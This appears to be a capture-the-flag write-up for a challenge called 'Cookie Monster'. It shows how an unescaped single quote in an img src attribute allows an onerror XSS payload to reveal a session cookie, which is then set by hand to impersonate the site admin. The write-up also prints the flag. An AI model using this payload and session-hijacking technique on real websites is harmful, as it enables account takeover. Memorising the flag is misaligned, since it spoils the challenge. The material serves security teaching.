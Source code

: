 # Cookie Monster
Display use of XSS to steal cookies

<i>Creator - @Platy</i>

## Question
>Cookie monster has stolen my cookies again! And apparently, he learnt how to create a website to get more cookies! He is accepting nice images from users and running it on his image viewer using what he thinks is the best browser, Internet Explorer. Retrieve the cookie that he stole from me! Thanks!
>
>Connect via `http://web.chal.gryphonctf.com:17563` and `nc web.chal.gryphonctf.com 17564`

## Setup Guide
Run `sudo bash build.sh`

## Solution
Upon going on to the website, we can see a nice image viewer. Whatever you placed in the input field, the image will get displayed.

We can try to do some simple XSS by doing `<script>alert(1);</script>` but nothing interesting happens.

Doing `Ctrl-U`, we can see
```html
<h1>HeRe Is YoUr ImAgE!</h1>
<img src='&lt;script&gt;alert(1);&lt;/script&gt;' width="500">
<p><h2>Thank you for using image viewer</h2></p>
<p>Image source : &lt;script&gt;alert(1);&lt;/script&gt;</p>
```

The tags get filtered out. But what's this? The img source uses single quotes instead of double. Perhaps single quotes are not filtered out by `htmlentities()` as it is not the default option

Typing in a single quote and we get this
```html
<img src=''' width="500">
```
Success! Now we know that single quotes are not sanitised. Since this is `<img src>`, we can do `onerror` to run javascript if the image fails to load.

By doing that, we can do `document.write()` with `document.cookie` to view Cookie Monster's cookies.

Upon entering  `' onerror='document.write(document.cookie)`, we get
```html
<html>
  <head></head>
  <body>passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk</body>
</html>
```
Now we can go into the console of chrome and type `document.cookie="passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk"`

We can now enter and pretend to be cookie monster to get the flag.

### Flag
`GCTF{c_15_f0r_c00k13_4nd_c00k13_15_f0r_m3}`
